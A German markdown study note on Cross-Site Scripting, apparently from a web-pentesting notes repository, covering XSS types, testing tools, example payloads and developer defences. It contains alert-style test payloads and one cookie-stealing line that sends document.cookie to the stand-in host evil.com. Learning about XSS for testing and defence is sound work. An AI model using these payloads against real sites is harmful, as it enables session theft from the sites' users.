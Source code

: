 Inhalt für web-pentesting/xss.md

# 🛡️ Cross Site Scripting (XSS)

XSS (Cross Site Scripting) ist eine Schwachstelle, bei der Angreifer Schadcode (meist JavaScript) in Webseiten einschleusen können.

---

## 🧠 Grundtypen von XSS

### 1. Reflected XSS (nicht persistent)
- Nutzereingabe wird **sofort reflektiert**
- Wird nicht dauerhaft gespeichert
- Oft über URL-Parameter
- Beispiel-Test:

?q=<script>alert(1)</script>


### 2. Stored XSS (persistent)
- Eingabe wird **in Datenbank gespeichert**
- Z. B. in Kommentarfeldern
- Wird bei jedem Besuch ausgeführt

### 3. DOM-based XSS
- **Clientseitig**: Manipulation durch JavaScript im Browser
- Kein Serverkontakt nötig
- Beispiel:
```js
document.location = "https://evil.com?cookie=" + document.cookie

🧪 Testmethoden

    Eingabe von Test-Payloads in Felder / URLs

    Kombination mit Burp Suite (Repeater / Intruder)

    Chrome Dev Tools: Fehlerkonsole beobachten

🧰 Tools & Hilfen
Tool	Zweck
Burp Suite	Interaktive Analyse & Payload-Tests
XSS Hunter	Blind XSS (Callback auf eigene URL)
OWASP XSS Filter Evasion Cheat Sheet	Payload-Varianten
🧨 Beispiel-Payloads

<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
"><svg/onload=alert(1)>

🛡️ Schutzmaßnahmen (für Entwickler)

    HTML escapen / kodieren

    CSP (Content Security Policy)

    Validierung & Filterung von Eingaben

    HttpOnly & Secure Cookies setzen

📚 Quelle für weitere Payloads: PayloadAllTheThings
